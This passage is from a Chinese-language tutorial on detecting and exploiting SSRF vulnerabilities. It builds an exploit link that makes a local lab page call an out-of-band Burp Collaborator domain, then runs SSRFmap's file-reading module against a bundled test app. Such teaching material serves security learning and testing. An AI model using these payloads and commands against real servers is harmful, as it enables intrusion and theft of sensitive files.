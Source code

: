 
<Image alt="Drawing 9.png" src="https://s0.lgstatic.com/i/image/M00/8D/8C/Ciqc1F___OaARRUKAAA1N0CwrBA260.png"/> 
  
图 10：Burp Collaborator client

点击"Copy to clipboard"获取生成的域名，我这里生成的是"c3g9ga6x5zdxijo5d3aifxv6nxtnhc.burpcollaborator.net"，我们就可以构造如下利用链接：

```java
http://localhost:8080/vul/ssrf/ssrf_curl.php?url=http://c3g9ga6x5zdxijo5d3aifxv6nxtnhc.burpcollaborator.net
```

访问后回到 Burp Collaborator client，点击"Poll now"就可以看到 DNS 请求记录，这说明存在 SSRF 漏洞。


<Image alt="Drawing 10.png" src="https://s0.lgstatic.com/i/image/M00/8D/8C/Ciqc1F___PCAJA70AABnCpr9zFk818.png"/> 
  
图 11：获得 DNS 请求日志证明存在 SSRF 漏洞

这个检测方法比较通用简单，且无须自己搭建 DNS 服务器，非常方便，我强烈推荐。

#### 2.工具：SSRFmap

这里给大家介绍一款 SSRF 检测工具：[SSRFmap](https://github.com/swisskyrepo/SSRFmap)，利用它可检测与利用 SSRF 漏洞， 同时它也整合了一些常用漏洞可以结合 SSRF 去利用，比如 fastjson、mysql、github 的一些历史漏洞，还有端口扫描、读取文件等利用功能，都是实用的漏洞利用能力。

使用上会比 Burp Collaborator 便捷，但检测能力上其实没有 Burp Collaborator 那样准确，SSRFmap 有时会利用失败。所以个人推荐使用 Burp Collaborator 用来检测 SSRF 是否存在，再使用 SSRFmap 做一些漏洞利用，比如读取敏感文件等操作。

SSRFmap 是以 HTTP 请求数据作为文件输入，使用命令如下：


<Image alt="Drawing 11.png" src="https://s0.lgstatic.com/i/image/M00/8D/8C/Ciqc1F___PiASgPlAAEZ_x3Bz0k961.png"/> 
  
图 12：SSRFmap

用其自带的测试用例，试用下：

```java
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```

其中 data/request.txt 内容如下：

```java
POST /ssrf HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mysimple.ssrf/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: close
Upgrade-Insecure-Requests: 1
url=https%3A%2F%2Fwww.google.fr%
```
